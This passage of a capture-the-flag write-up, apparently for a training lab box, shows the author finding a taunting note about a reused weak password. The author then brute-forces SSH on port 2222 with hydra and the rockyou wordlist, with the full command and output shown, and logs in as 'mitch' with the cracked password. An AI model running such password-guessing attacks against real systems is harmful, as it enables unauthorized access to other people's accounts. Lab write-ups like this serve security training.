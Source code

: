 We check it out by cat'ing.

```
root@ip-10-10-156-103:~# cat ForMitch.txt
Dammit man... you'te the worst dev i've seen. You set the same pass for the system user, and the password is so weak... i cracked it in seconds. Gosh... what a mess!
```

Umm... that looks bad. Well for them. We know that Mitch is the username. Now we only have to use hydra to find out the password by bruteforcing.

```
root@ip-10-10-156-103:~# hydra -l mitch -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://10.10.196.217
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-10-07 17:05:18
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking ssh://10.10.196.217:2222/
[2222][ssh] host: 10.10.196.217   login: mitch   password: secret
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 0 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-10-07 17:05:27
```

Sweet. Looks like the password is secret. That answers the next question of the CTF. And with that we can access and login to the ssh shell.

```
root@ip-10-10-156-103:~# ssh -p 2222 mitch@10.10.196.217
mitch@10.10.196.217's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.15.0-58-generic i686)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

Last login: Mon Aug 19 18:13:41 2019 from 192.168.0.190
$ whoami
mitch
```

Mwah 💋. There we have it. Now let's just cat the user.txt

```
$ ls -la
total 36
drwxr-x--- 3 mitch mitch 4096 aug 19  2019 .
drwxr-xr-x 4 root  root  4096 aug 17  2019 ..
-rw------- 1 mitch mitch  178 aug 17  2019 .bash_history
-rw-r--r-- 1 mitch mitch  220 sep  1  2015 .bash_logout
-rw-r--r-- 1 mitch mitch 3771 sep  1  2015 .bashrc
drwx------ 2 mitch mitch 4096 aug 19  2019 .cache
-rw-r--r-- 1 mitch mitch  655 mai 16  2017 .profile
-rw-rw-r-- 1 mitch mitch   19 aug 17  2019 user.txt
-rw------- 1 mitch mitch  515 aug 17  2019 .viminfo
$ cat user.txt
```
